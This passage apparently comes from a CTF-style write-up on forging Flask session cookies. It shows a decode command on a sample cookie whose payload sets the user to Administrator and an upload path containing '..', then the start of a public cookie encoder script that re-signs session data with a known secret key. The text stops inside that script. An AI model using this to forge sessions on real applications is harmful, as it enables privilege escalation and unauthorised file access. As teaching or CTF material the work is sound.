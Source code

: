 
```bash
python flask_session_decode.py session内容
```



```bash
python flask_session_decode.py eyJ1cGRpciI6ImZpbGVpbmZvLy4uIiwidXNlciI6IkFkbWluaXN0cmF0b3IifQ.Y0Fj2g.UXNKMoSXrDAqOt90FWrOtZa9iNI
```







### Session-encode脚本



```python
#!/usr/bin/env python3
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e


```